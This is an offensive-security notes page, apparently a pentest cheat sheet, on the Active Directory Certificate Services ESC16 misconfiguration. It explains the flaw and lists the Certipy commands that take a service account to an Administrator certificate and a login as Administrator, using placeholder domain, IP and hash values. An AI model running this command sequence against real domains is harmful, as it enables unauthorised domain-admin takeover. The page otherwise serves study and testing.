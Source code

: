 # ESC16

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**ESC16**</mark> is a <mark style="color:purple;">**misconfiguration**</mark> in Active Directory Certificate Services where the CA is globally set—via the <mark style="color:green;">`DisableExtensionList`</mark> registry key or due to missing patches—to omit the <mark style="color:green;">`szOID_NTDS_CA_SECURITY_EXT`</mark> SID extension from all issued certificates, which breaks strong certificate-to-user mapping and allows attackers, under certain conditions (like DCs set to compatibility mode or combined with ESC6), to spoof UPNs or inject SIDs in SAN fields to impersonate privileged accounts using forged certificates.

> <mark style="color:yellow;">**ESC6:**</mark> Lets you **inject your own UPN and SID** into the **SAN (Subject Alternative Name)** field of a certificate request.

> <mark style="color:yellow;">**ESC16:**</mark> The CA is **misconfigured to&#x20;**_**not**_**&#x20;include the SID extension** (<mark style="color:green;">`szOID_NTDS_CA_SECURITY_EXT`</mark>) in certificates.

## <mark style="color:yellow;">EXPLOITATION</mark>

> If you would look into Certipy's docs, there is Scenario A and Scenario B, this is a little bit of both. Updating UPN part is from Scenario A, and requesting certificate with adding our UPN and SID is from Scenario B

#### Updating UPN

```bash
certipy account -u 'some_svc@militech.local' -hashes wubbalubbadubdub -dc-ip '13.13.13.13' -upn 'Administrator' -user 'some_svc' update
```

#### Exctracting Admin's SID

```bash
certipy account -u 'some_svc@militech.local' -hashes wubbalubbadubdub -dc-ip '13.13.13.13' -upn 'Administrator' -user 'some_svc' read
```

#### Requesting valid Admin's cert

```bash
certipy req -u 'some_svc@militech.local' -hashes wubbalubbadubdub -dc-ip '13.13.13.13' -target 'dc01.militech.local' -ca 'militech-DC01-CA' -template 'User' -upn 'administrator@militech.local' -sid 'S-1-5-21-...-500'
```

#### Updating back UPN

```bash
certipy account -u 'some_svc@militech.local' -hashes wubbalubbadubdub -dc-ip '13.13.13.13' -upn 'some_svc' -user 'some_svc' update       
```

#### Authenticating as Admin

```bash
certipy auth -pfx 'administrator.pfx' -username 'Administrator' -domain militech.local -dc-ip '13.13.13.13'
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally" %}
